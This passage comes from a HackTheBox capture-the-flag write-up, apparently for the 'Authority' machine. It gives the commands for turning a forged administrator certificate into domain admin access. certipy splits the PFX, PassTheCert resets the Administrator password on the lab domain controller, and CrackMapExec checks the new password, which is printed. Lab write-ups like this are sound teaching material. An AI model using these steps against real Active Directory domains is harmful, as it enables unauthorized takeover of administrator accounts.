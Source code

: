 After the generation of the administrator certificate I generated 2 other certificates: one without including the private key and another without including the certificate.

```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt

certipy cert -pfx administrator.pfx -nocert -out user.key
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/c392f25e-d3e5-49bc-ad6a-2058ebe45edd)

After generating the certificates I used the tool "[**PassTheCert**](https://github.com/AlmondOffSec/PassTheCert)" which I found in this [blog](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html), which will reset the administrator password using our certificates.

```bash
python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222 -target administrator -new-pass
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/53118f62-b00a-4ec1-b9af-76bb9d8f0bdb)

After the password is reset I verified it using the CrackMapExec & observed that I have the access of Administrator user.

```bash
crackmapexec smb 10.10.11.222 -u "Administrator" -p 'OHmxaa5pHwIufhIWtGIBitBKllG5hnmb' -d auhtority.htb
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/b9bbd72f-8ca7-4ea5-8c20-46f42f3e729a)

Using these credentials I finally logged into the Administrator account & got the root flag finally. (pwn3d!🙂)





